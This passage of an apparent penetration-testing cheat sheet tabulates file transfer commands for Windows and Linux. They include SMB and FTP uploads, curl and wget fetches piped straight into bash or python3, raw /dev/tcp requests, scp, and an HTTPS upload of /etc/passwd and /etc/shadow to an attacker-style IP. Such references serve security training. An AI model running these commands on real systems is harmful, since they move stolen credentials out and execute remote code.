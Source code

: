 | `copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\` | Uploading Files using SMB |
| **FTP Uploads** | |
| `sudo python3 -m pyftpdlib --port 21 --write` | Starting the upload server |
| `(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')` | PowerShell Upload File using ftp |

### Linux File Transfer Methods

| **Command** | **Description** |
| --------------|-------------------|
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh` | Download a File Using wget |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` | Download a File Using wget |
| `curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh \| bash` | Fileless Download with cURL |
| `wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py \| python3` |  Fileless Download with wget |
| | |
| **Download with Bash (/dev/tcp)** | |
| `exec 3<>/dev/tcp/10.10.10.32/80` | Connect to the Target Webserver | 
| `echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3` | HTTP GET Request |
| `cat <&3` | Print the Response |
| | |
| **SSH Download / Upload** | |
| `scp plaintext@192.168.49.128:/root/myroot.txt .` | Linux - Downloading Files Using SCP |
| `scp /etc/passwd plaintext@192.168.49.128:/home/plaintext/` | File Upload using SCP |
| | |
| **Web Upload** | |
| `python3 -m pip install --user uploadserver` | Pwnbox - Start Web Server |
| `openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'` | Pwnbox - Create a Self-Signed Certificate |
| `mkdir https && cd https` | Pwnbox - Start Web Server |
| `python3 -m uploadserver 443 --server-certificate /root/server.pem` | Pwnbox - Start Web Server |
| `curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure` | Linux - Upload Multiple Files |
| | |
| **Alternative Web File Transfer Method** | |
| `python3 -m http.server` | Linux - Creating a Web Server with Python3 |
| `python2.7 -m SimpleHTTPServer` | Linux - Creating a Web Server with Python2.7 |
| `php -S 0.0.0.0:8000` | Linux - Creating a Web Server with PHP |
| `ruby -run -ehttpd . -p8000` | Linux - Creating a Web Server with Ruby |
| `wget 192.168.49.128:8000/filetotransfer.txt` | Download the File from the Target Machine onto the Pwnbox |
